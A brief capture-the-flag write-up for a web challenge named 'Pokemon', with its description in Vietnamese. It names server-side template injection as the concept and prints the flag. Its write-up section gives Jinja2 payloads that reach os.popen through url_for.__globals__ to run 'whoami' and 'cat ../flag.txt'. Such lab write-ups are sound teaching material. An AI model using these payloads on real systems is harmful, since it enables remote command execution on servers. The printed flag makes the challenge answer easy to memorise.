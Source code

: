 # Pokemon
Category: Web

Difficulty: Medium

### Description
Hãy cùng nhau chọn ra 1 người bạn đồng hành trong hành trình sắp tới tại clb E nào.

**Exposed port: 8080**

### Flag
EHCTF(g0tt4c_c4tch_3m_4ll)


### Concept
SSTI

### Writeup
`{{7*7}}`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt`
